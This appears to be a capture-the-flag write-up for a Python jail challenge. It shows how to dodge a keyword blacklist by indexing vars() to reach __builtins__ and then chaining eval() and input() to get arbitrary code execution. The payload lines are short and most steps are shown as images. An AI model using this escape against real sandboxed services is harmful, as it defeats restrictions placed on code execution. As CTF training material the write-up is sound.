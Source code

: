 # Golfing 100 Character

u can see at the <a href="blacklist.py">code</a>, it still using LITE ban and u can use more than 100 character.

First, lets use inline for loop to iterate __vars()__ and get the builtins

```
[x for x in vars()]
```

<img src='img/1.png' width='400px'>

u can see if the __\_\_builtins\_\___ function is on array, so we need to know where is the index of that function. Cuz if we call the function normally, it will make the payload longer.

<img src='img/2.png' width='400px'>

after that, using this payload will call the __\_\_builtins\_\___ function.

```
[x for x in vars()][6]
```

<img src='img/3.png'>

now lets try to put in inside the __vars()__

```
vars(vars()[[x for x in vars()][6]])
```

<img src='img/4.png' width='800'>

now take the __eval()__ and __input()__

<img src='img/5.png' width='400'>

it works, now put the __input()__ inside the __eval()__

<img src='img/6.png' width='500'>